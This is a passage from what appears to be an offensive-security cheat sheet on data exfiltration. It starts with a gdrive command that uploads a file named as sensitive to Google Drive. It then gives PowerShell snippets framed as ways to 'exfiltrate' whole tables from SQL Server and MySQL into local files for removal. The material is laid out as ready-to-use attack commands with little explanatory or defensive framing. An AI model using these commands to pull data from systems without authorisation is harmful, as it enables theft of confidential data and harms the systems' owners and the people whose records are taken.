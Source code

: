 ```
gdrive upload "C:\Temp\sensitivefile_copy.txt"
```

# Data Exfiltration via SQL Databases

#### SQL Server (MSSQL)

Exfiltrate Data Using SQL Query:

```
$ConnectionString = "Server=<server_ip>;Database=<database_name>;User Id=<username>;Password=<password>;"
$Query = "SELECT * FROM <table_name>;"
$SqlConnection = New-Object System.Data.SqlClient.SqlConnection
$SqlConnection.ConnectionString = $ConnectionString
$SqlCmd = New-Object System.Data.SqlClient.SqlCommand
$SqlCmd.CommandText = $Query
$SqlCmd.Connection = $SqlConnection
$SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter
$SqlAdapter.SelectCommand = $SqlCmd
$DataSet = New-Object System.Data.DataSet
$SqlAdapter.Fill($DataSet)
$DataSet.Tables[0] | Out-File -FilePath C:\Temp\mssql_data.txt
```

Export Data from SQL Server to a File:

```
Invoke-Sqlcmd -ServerInstance "<server_ip>" -Database "<database_name>" -Query "SELECT * FROM <table_name>" | Export-Csv -Path C:\Temp\mssql_data.csv
```

#### MySQL

Exfiltrate Data Using MySQL Query:

```
$Connection = New-Object MySql.Data.MySqlClient.MySqlConnection
$Connection.ConnectionString = "server=<server_ip>;user id=<username>;password=<password>;database=<database_name>"
$Connection.Open()
$Command = $Connection.CreateCommand()
$Command.CommandText = "SELECT * FROM <table_name>"
$Reader = $Command.ExecuteReader()
$Results = New-Object System.Collections.Generic.List[System.Object]
while ($Reader.Read()) {
    $Row = @{}
    for ($i = 0; $i -lt $Reader.FieldCount; $i++) {
        $Row[$Reader.GetName($i)] = $Reader.GetValue($i)
    }
    $Results.Add($Row)
}
$Results | ConvertTo-Csv | Out-File -FilePath C:\Temp\mysql_data.csv
$Connection.Close()
```
